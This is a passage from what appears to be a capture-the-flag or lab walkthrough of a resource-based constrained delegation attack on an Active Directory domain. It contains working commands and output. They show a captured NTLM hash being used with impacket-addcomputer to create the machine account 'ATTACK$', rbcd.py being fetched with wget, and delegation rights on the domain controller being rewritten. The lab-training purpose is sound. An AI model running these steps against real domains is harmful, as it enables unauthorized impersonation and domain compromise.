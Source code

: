 Let's use our access with the `l.livingstone` account to create a new machine account on the domain. We can do with by using `impacket-addcomputer` to abuse GenericAll priv

```c
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.120.181 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Successfully added machine account ATTACK$ with password AttackerPC1!.
```

We can verify that this machine account was added to the domain by using our `evil-winrm` session from before.

```
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> get-adcomputer attack


DistinguishedName : CN=ATTACK,CN=Computers,DC=resourced,DC=local
DNSHostName       :
Enabled           : True
Name              : ATTACK
ObjectClass       : computer
ObjectGUID        : 3fe60405-3692-4de9-8a20-917b234741b9
SamAccountName    : ATTACK$
SID               : S-1-5-21-537427935-490066102-1511301751-3601
UserPrincipalName :
```

With this account added, we now need a python script to help us manage the delegation rights. Let's grab a copy of [rbcd.py](https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py) and use it to set `msDS-AllowedToActOnBehalfOfOtherIdentity` on our new machine account.

```
┌──(kali㉿kali)-[~]
└─$ wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py  
...
┌──(kali㉿kali)-[~]
└─$ sudo python3 rbcd.py -dc-ip 192.168.120.181 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone                                  
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against RESOURCEDC$
[*] Initializing LDAP connection to 192.168.120.181
[*] Using resourced\l.livingstone account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `ATTACK` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `RESOURCEDC`
[*] Delegation rights modified succesfully!
[*] ATTACK$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
```

We can confirm that this was successful by using our `evil-winrm` session.
